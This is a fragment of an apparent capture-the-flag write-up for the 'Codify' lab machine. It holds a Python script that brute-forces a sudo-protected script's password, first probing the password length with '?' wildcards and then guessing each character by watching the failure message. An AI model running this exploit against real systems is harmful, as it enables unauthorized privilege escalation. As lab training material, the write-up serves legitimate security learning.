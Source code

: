 ```python
#First we need to know the length of the password :
passwd = "?"
command= "echo "+passwd+" | " + prg_path

while ("Password confirmation failed!" in cmd(command)) :
    passwd += "?"
    command= "/usr/bin/echo "+passwd+" | sudo " + prg_path + " 2>/dev/null"


# Now we have a password of length n , let's try to bretueforce each character
alphabet = string.ascii_letters + string.digits + string.punctuation

for i in range(0, len(passwd)) :
    i_alphabet = 0
    passwd = change_char(passwd, i, alphabet[i_alphabet])
    command= "/usr/bin/echo "+passwd+" | sudo " + prg_path+ " 2>/dev/null"
    while ("Password confirmation failed!" in cmd(command) and i_alphabet < len(alphabet)) :
        i_alphabet += 1
        passwd = change_char(passwd, i, alphabet[i_alphabet])
        command= "/usr/bin/echo "+passwd+" | sudo " + prg_path+ " 2>/dev/null"

    if (i_alphabet == len(alphabet)) :
        print("failed to crack it :(")
        exit(-1)

    print("password :", passwd)

print("We did it!", passwd)
```

The output looks like this :

<img src="/assets/img/Codify/codi9.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>
